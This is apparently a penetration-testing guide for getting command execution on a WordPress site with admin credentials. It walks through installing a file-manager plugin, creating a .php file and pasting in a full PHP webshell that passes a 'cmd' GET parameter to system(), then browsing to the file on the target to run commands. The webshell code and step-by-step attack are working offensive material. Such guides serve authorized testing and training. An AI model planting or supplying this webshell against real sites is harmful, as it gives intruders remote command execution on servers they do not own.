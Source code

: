 
# Wordpress - Install File Managment Plugin 

In case uploading a plugin was not possible for any reason related to custom wordpress configuration or web server configuration ( Maximum upload size ), you could install a plugin and activate it through another feature.
## Requirements

 - A valid **username and password** of a user with **admin rights** on the Wordpress.

## Exploitation

### Accessing the dashboard

Connect with a user with administrative rights on the Wordpress at [http://TARGET/wp-login.php](http://TARGET/wp-login.php).


### Installing the plugin

- Then go on the "Plugin" --> "Add New" page.

![](./imgs/add_new.png)

- In the next step, type "File Manager" in the search bar and install any of those file managment plugin ( First one recommended ). Active the plugin from the same page after installing it.

![](./imgs/Installing_filemanager.png)

### Using the plugin

- On the side bar, you will find the plugin name, Navigate to its page. 

![](./imgs/plugin_page.png)


- Right click on the icon that is related to creating a new file --> Choose plain txt --> change filename extension from .txt to .php

![](./imgs/creating_new_file.png)

- Select the created file --> Right click --> Navigate to the code editor.

![](./imgs/code_edit.png)


- Paste your php webshell code.


```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>

```

![](./imgs/paste_phpshellcode.png)

- Navigate to the main URL of your target with attaching your created filename into it [http://TARGET/NewFile.php](http://TARGET/NewFile.php)

- Execute the commands.
## References
 - https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985
